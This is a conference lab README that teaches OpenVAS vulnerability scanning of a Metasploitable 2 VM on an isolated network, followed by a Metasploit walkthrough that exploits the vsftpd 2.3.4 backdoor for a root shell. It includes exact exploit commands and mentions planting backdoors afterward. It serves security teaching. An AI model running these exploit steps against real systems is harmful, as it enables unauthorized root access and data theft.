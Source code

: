 # RSSC19-OpenVAS-Lab

## Prerequisites

In order to execute this lab, there are a few things you will need to get started.
1. Installation of Metasploitable 2 VM as an attack target
   * This can be downloaded here: https://sourceforge.net/projects/metasploitable/files/Metasploitable2/
   * This lab will not go into how to register the download into your hypervisor, but many tutorials are available online
2. Kali Linux installed to attack the target host
3. Both machines should be connected to the same network
   * **DO NOT** expose the Metasploitable VM to untrusted networks, only your attack host should be able to access the target
4. For this lab we're going to use the IP 192.168.100.10 for the Metasploit target and 192.168.100.11 for the Kali console. Replace these IPs in the instructions with your own if using different ones.

## Attack Execution

Here we will walk through the process of using OpenVAS to scan a host and determine its vulnerabilities.

### Installation of OpenVAS - **SKIP THIS SECTION IF YOU'RE AT THE RSSC19 CONFERENCE, IT HAS ALREADY BEEN DONE FOR YOU**
1. On your Kali installation, open a terminal
2. Install OpenVAS using apt.

```bash
apt install openvas -y
```

3. Once installed, run the setup utility. This allows OpenVAS to start downloading vulnerability information and perform required setup tasks.

```bash
openvas-setup
```

4. This process will take some time to complete. When it's finished, it will print information on how to connect to the service, including the default admin password, which is randomly generated.

![AdminCreds](/screenshots/RSSC19_admin_password.png)

### Login to OpenVAS and Execute Scan

Now we will use OpenVAS to perform a scan against our target host.

1. Launch Firefox (or your preferred web browser) and navigate to https://192.168.100.12:9392
   * If you are executing this on your own and not at RSSC19, the setup should automatically load your browser for you and point you to the service on your localhost, which is https://127.0.0.1:9392
2. Login with the username `admin` and your password.
   * If you are following this exercise at RSSC19, the admin password is `RSSC19`
   * If you are following this exercise at home, you will need to get your default admin password from the steps in the previous section.
3. Once logged in, click `Scans`, then `Tasks` in the fly-down menu

![ScansTasks](/screenshots/RSSC19_1.png)

4. Click the purple `Wizard` icon in the top-left corner

![ScanWizard](/screenshots/RSSC19_2.png)

5. Enter the IP address of the Metasploit VM
   * At RSSC19, the IP is `192.168.100.10`
6. Click `Start Scan`
7. This will take some time to complete. If you are at RSSC19, you can move on to the next section, as a scan has already been run previously and the results are already available

### Reviewing the Results and Finding Vulnerabilities to Exploit

Here we will look at the scan results to find vulnerabilities to exploit

1. Click on `Scans` then `Results`

![ScanResults](/screenshots/RSSC19_3.png)

2. Sort by Severity by clicking on the `Severity` header in the Vulnerability table
   * You may need to click this twice to have it sort in descending order
   
![SortSeverity](/screenshots/RSSC19_4.png)

3. Review some of the vulnerabilities on this page that are of `High` Severity. You can click on the name of the vulnerability to get more detail.
4. Find the vulnerability titled `vsftpd Compromised Source Packages Backdoor Vulnerability` and click on it for more information. This may be a few pages in, click the green arrow on the bottom right to advance the page until you find the vulnerability.
   * Note: There may be more than one of this vulnerability, select the one that shows a Location of `21/tcp`

![vsftpdVuln](/screenshots/RSSC19_5.png)

5. We can learn from this page that there is a backdoor vulnerabillity in this FTP service that can be exploited.

### Finding and Running the Exploit

1. Open a terminal and launch the metasplpoit console, which is used to find vulnerabilities and execute their exploits

```bash
msfconsole
```

2. Search for any exploits related to the `vsftpd` service we discovered vulnerabilities for in the previous section

```bash
search vsftpd
```

3. There is one exploit available, and it is for `Backdoor Command Execution`, which is the vulnerability we found in OpenVAS. Let's select the exploit

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

4. Review the options available for the exploit

```bash
show options
```

5. RPORT is already set to 21, which is correct based on the OpenVAS result showing the vulnerability on that port. We need to set the target IP though, which is the Metasploitable VM.

```bash
set RHOSTS 192.168.100.10
```

6. Now that all the required options are set, run the exploit

```bash
run
```

7. If successful, this should grant you a root shell to the target box. To confirm, run the following commands to verify hostname, IP, and logged in user of your remote shell

```bash
ip a
hostname
whoami
```
   * Notice the IP address 192.168.100.10 is listed, which belongs to our target host, and the hostname is metasploitable, as expected. The result of the `whoami` command should be `root`, indicating your root access.
   
8. From here you have full control of the target and you can perform any commands you wish, such as installing backdoors for access later, malware, obtaining sensitive information on the filesystem, etc.

# Conclusion

we hope this has been useful in seeing the process of scanning a target system for exploitable vulnerabilities, determining which are exploitable, finding the exploits, and executing them to gain access to a target host. It is a good idea to run vulnerability scanners like this in your own environment to determine where your weaknesses are so you can correct them before a malicious actor finds them instead.
